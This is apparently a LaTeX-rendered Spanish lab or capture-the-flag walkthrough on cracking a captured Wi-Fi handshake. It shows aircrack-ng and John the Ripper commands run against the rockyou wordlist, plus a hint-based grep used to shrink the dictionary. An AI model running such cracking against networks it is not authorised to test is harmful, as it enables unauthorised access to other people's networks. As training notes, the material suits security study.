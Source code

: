 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\hypertarget{crackeo-con-aircrack-ng}{%
\subsubsection*{Crackeo con Aircrack-ng}\label{crackeo-con-aircrack-ng}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -w /usr/share/wordlists/rockyou.txt captrured.cap}
\end{Highlighting}
\end{Shaded}

Este crack duraria aprox una hora.

Con investigacion S4vi a pillado una palabra flight en un fichero .txt y buscando por el dios griego del vuelo
encontro que este dios seria icarus.

Para ganar tiempo, se crea un diccionario mas pequenito que contiene la palabra \emph{icar}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep} \StringTok{"icar"}\NormalTok{ /usr/share/wordlists/rockyou.txt }\OperatorTok{>}\NormalTok{ dictionary.txt}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -w dictionary.txt captured.cap}
\end{Highlighting}
\end{Shaded}

Ya encontramos la contraseña.

\hypertarget{crackeo-con-john}{%
\subsubsection*{Crackeo con John}\label{crackeo-con-john}}

Extraemos lo que nos interressa del fichero \textbf{captured.cap} en un fichero mas pequenito que se llama Captura.hccap que con la utilidad
\textbf{hccap2john} no permite transformarldo en un hash compatible con \textbf{John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -J Captura captured.cap}
\ExtensionTok{hccap2john}\NormalTok{ Captura.hccap }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ -wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}
\end{document}

